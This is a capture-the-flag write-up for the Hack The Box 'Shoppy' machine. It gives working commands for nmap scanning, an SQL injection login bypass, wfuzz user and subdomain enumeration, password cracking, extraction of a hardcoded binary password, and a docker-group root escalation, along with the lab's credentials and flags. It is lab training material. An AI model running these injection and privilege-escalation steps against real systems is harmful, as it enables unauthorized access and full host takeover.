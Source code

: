 IP: 10.10.11.180
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/shoppy 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-09 23:34 EST
Nmap scan report for 10.10.11.180
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
	
Hostname: shoppy.htb
# Webapp
## Site 1
Login page at shoppy.htb/login

Bypass authentication with sqli
```sql
'||'1==1
```
which can enumerate users.
```bash
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ'||'1==1&password=password" --hh 51 http://shoppy.htb/login
```
Found 2 valid users, Josh and admin.

You can get the user's hashes. from the search button on the website.
josh:6ebcea65320589ca4f2f1ce039975995
Looks like a md5sum which cracks to `remembermethisway`.

Try to ssh onto the box, but it doesn't work.
## Site 2
Check for subdomains.
```bash
wfuzz -w /usr/share/seclists/Discovery/DNS/bitquark-subdomain-top100000.txt --hh 169 -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb"
```
Result of mattermost.

In one of the channels there is talk about docker and creds for jaeger.
```
jaeger:Sh0ppyBest@pp!
```
# Foothold
ssh onto the box: 

User flag: 
```
00205ca0b36ca0c118f497536ca0d354
```
Check sudo -l 

can run /home/deploy/password-manager as deploy

## Reversing the binary (very badly)
cat the binary, and manually check for strings.
```
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```
If you run the application 
```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: apples?
Access denied! This incident will be reported !
```
The 'Sample' string doesn't show.

Trying that as the password works!
```txt
Deploy Creds :
username: deploy
password: Deploying@pp!
```
## An aside
A cleaner way would be to run `strings -el ./password-manager`. You have to use the -el flag cause of how the password is created in the source code. It will append a null byte to each letter causing strings to miss it.
```
std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
```
Or the binary in hex:
```
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
```

# Priv esc
Switch user
```bash
su deploy
```

Running `id` shows that deploy is part of the docker group.

GTFObins has a docker privesc
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```
This will mount the host file system within the docker container and run it as root.

root flag: 
```
981640e1702857397b42e654b62d6423
```

